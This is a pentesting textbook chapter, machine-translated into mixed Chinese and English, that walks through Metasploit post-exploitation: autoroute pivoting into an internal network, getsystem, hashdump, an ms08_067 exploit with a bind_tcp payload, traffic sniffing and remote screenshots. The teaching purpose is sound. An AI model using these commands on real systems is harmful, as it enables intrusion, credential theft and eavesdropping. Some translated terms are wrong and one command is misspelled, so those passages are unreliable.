# 第 11 章后利用——数据透视和网络嗅探

# 什么是旋转？

旋转简单来说就是依靠一个元素来利用另一个元素。在本章中，我们将探讨旋转和网络嗅探的艺术。该场景更适用于终端系统防火墙，或者 web 服务器，它们是进入内部网络的唯一点。我们将利用 web 服务器与内部网络的这种连接，通过前面章节介绍的利用技术连接到内部系统。因此，简单地说，第一个被破坏的系统帮助我们破坏其他系统，这些系统无法从外部网络访问。

# 在网络中旋转

嗯，这是 Metasploit 中非常有趣的一部分，我们将通过破坏一个系统来侵入 LAN 网络。在这里，我们已经有了一个受损的系统，我们有一个`meterpreter`系统外壳。

1.  First let us check the IP settings on that system by typing in `ipconfig`. We can see in the screenshot that the victim has two network adapters. `Adapter #2` has the IP of `10.10.10.1` range.

    

2.  Now we will check the whole network routing table using the route command by typing in `route`.

    

3.  Now our plan is to attack this additional network. For this attack, Metasploit has a post exploitation script, which is known as `autoroute`. This script allows us to attack the second network using the first compromised system. Using this script we can attack the second network from this compromised system. Type in `run autoroute -h` and it will show all usage commands of the script.

    

4.  Here we are using `run autoroute -s 10.10.10.1/24`; running this command will add a route to the target machine from our compromised system.

    

5.  Now, we can see in the preceding screenshot that a route has been added via `192.168.0.110`, which is our compromised system. Now we will verify whether our route has been added or not by typing in `run auroroute -p`.

    

6.  We can see in the screenshot that our route has been successfully added in the routing table. Next what we have to do is to escalate the privileges of the compromised system. For this, we type in `getsystem`.

    

7.  After escalating the privileges of the compromised system, we can now dump the hashes of all users and get their passwords. To do so, we type in `run hashdump`.

    

8.  After successfully dumping the credentials, we will background our `meterpreter` process by pressing *Ctrl* + *Z* and then pressing *Y*.

    

9.  The next thing we do is to scan the second network address to check whether the other systems are online or not, and also check for open ports. So we perform a TCP port scan by using an auxiliary module. For this, we type in `use auxiliary/scanner/portscan/tcp`.

    

10.  Now type in `show options` and it will show all the options of this module that are usable for this module.

    

11.  Now we will set our target address range in the `RHOST` options. So, type in `set rhosts <target IP range>`; for example, here we are using `set rhosts 10.10.10.1/24`.

    

12.  Next, set the port numbers that we are looking for. Here we are looking for the most common ports that are found open in a computer system. So type in `set ports <port number>`; for example, here we are giving `set ports 139,445`.

    

13.  Next we will set the concurrent thread's number for scanning the TCP ports. So here we are giving threads `50` by typing in `set threads 50`.

    

14.  Now our auxiliary module is fully loaded for scanning. The last and final command we are going to execute is the `run` command. So, type in `run`.

    

我们可以在前面的屏幕截图中看到，我们的辅助 TCP 模块扫描器已经启动，它发现两个系统正在联机，IP 为 10.10.10.1 和 10.10.10.2，还发现该系统 139 和 445 上有两个打开的端口。这里的 IP 10.10.10.1 已经受损，因此我们的目标是 IP 10.10.10.2。

现在我们要用一个漏洞来攻击另一个系统。我们将要使用的漏洞已经在[第 3 章](03.html "Chapter 3. Exploitation Basics")、*漏洞基础*中使用过；因此，我们非常清楚使用此漏洞的过程。现在让我们开始；输入`use exploit/windows/smb/ms08_067_netapi`并按*进入*。然后输入`set rhost <target IP>`；例如，这里我们使用的是`set rhost 10.10.10.2`。



设置目标 IP 后，现在设置损害目标系统的有效负载。这次我们使用有效载荷进行攻击。所以输入`set payload windows/meterpreter/bind_tcp`。

现在所有的东西都准备好攻击了，所以输入致命的`exploit`命令。



触发`exploit`命令后，我们可以看到`meterpreter`会话 2 已经在 IP 10.10.10.2 上打开。我们已经有了来自受损系统的会话 1；通过这个被破坏的系统，我们能够破坏网络中的另一个系统。

现在，让我们通过检查系统的属性来检查系统是否损坏了正确的系统。所以输入`sysinfo`。

我们可以在屏幕截图中看到系统的名称为**PWNED**，所以现在我们要验证这个名称。

# 网络嗅探

在旋转网络之后，我们现在转到另一个主题，在这里我们将学习如何使用`meterpreter`后利用脚本在网络中进行嗅探。在使用嗅探器之前，我们必须在`meterpreter`会话中加载嗅探器扩展。所以输入`use sniffer`。



我们可以在屏幕截图中看到，`meterpreter`已成功加载我们的嗅探器扩展。在使用嗅探器之前，我们必须了解嗅探器的使用命令；为此，在`meterpreter`会话中键入`help`，它将显示所有`meterpreter`命令。在那里，您可以找到所有嗅探器使用命令，如以下屏幕截图所示：

现在，我们可以看到嗅探器脚本的所有命令。首先，我们将枚举启动嗅探器的网络接口。所以输入`sniffer interfaces`。

枚举网络接口之后，是时候选择一个接口并在该网络接口上运行嗅探器了。输入`sniffer_start <Interface number>`；例如，这里我们选择了接口号 1，所以我们输入了`sniffer_start 1`。



现在我们可以看到我们的嗅探器正在工作，并且已经开始在`interface 1`上捕获数据包。因此，让我们通过输入`sniffer_stats 1`来检查`interface 1`上捕获的数据包状态。



我们可以看到，uptill 现在已经捕获了大小为`14511`字节的`91`数据包。现在我们想转储或保存捕获的数据包以供进一步分析，所以我们输入了`sniffer_dump <Interface no.> <file name for save in pcap extension>`；例如，这里我们使用的是`sniffer_dump 1 hacked.pcap`。



现在，我们将使用著名的数据包分析器和捕获工具 Wireshark 来分析捕获的数据包文件。因此，打开一个新的终端并输入`wireshark <captured packet file name>`；例如，这里我们使用的是`wireshark hacked.pcap`。

执行`wireshark`命令后，我们可以看到 Wireshark 工具的图形用户界面。



还有另一种方法可以在不加载`meterpreter`中的嗅探器扩展的情况下嗅探和捕获数据包。这个也是一个被称为`packetrecorder`的`meterpreter`后期开发脚本。输入`run packetrecorder`将显示`packetrecorder`的所有使用命令。



我们可以看到`packetrecorder`的所有使用选项。因此，首先我们将列举网络接口，可以通过键入`run packetrecorder -li`进行嗅探。



现在我们可以看到我们有两个可用的网络接口。选择一个接口来运行我们的嗅探器。所以输入`run packetrecorder -i 1 -l /root/Desktop`。

用法语法解释如下：

*   `i`表示接口号
*   `l` stands for location for saving the captured packet file

    

运行脚本`packetrecorder`后，如上图所示，数据包保存在`/root/Desktop/logs/packetrecorder`位置。让我们检查系统中的目录。

## Espia 扩展

Espia 扩展也是另一个有趣的扩展，在使用它之前，我们必须在`meterpreter`中加载它。所以输入`load espia`。

我们的 espia 扩展已经由`meterpreter`成功加载，正如我们在前面的屏幕截图中所看到的。现在在`meterpreter`中键入命令`help`，它将显示此扩展中可用的用法命令。



我们可以看到，在 espia 扩展中只有一个命令可用，即`screengrab`。使用此命令，我们可以抓取受损系统的屏幕截图。输入`screengrab`。

在屏幕截图中，我们可以看到捕获的屏幕截图被保存到根目录中。因此，让我们检查屏幕截图是否保存在根目录中。



# 总结

在本章中，我们介绍了各种技术，通过这些技术，我们可以利用外部网络上的联系点服务器/系统，并利用它开发其他系统。由于接触点系统有另一个网卡用于与内部网络连接，因此我们使用该网卡从外部系统转向内部系统。因此，一旦我们连接到内部网络，我们就可以通过前面章节介绍的开发技术来利用它。下一章将讨论使用 Metasploit 学习写作的艺术。

# 参考文献

以下是一些有用的参考资料，进一步阐明了本章所涵盖的一些主题：

*   [http://www.offensive-security.com/metasploit-unleashed/Pivoting](http://www.offensive-security.com/metasploit-unleashed/Pivoting)
*   [http://www.securitytube.net/video/2688](http://www.securitytube.net/video/2688)
*   [http://www.offensive-security.com/metasploit-unleashed/Packet_Sniffing](http://www.offensive-security.com/metasploit-unleashed/%E2%80%A8Packet_Sniffing)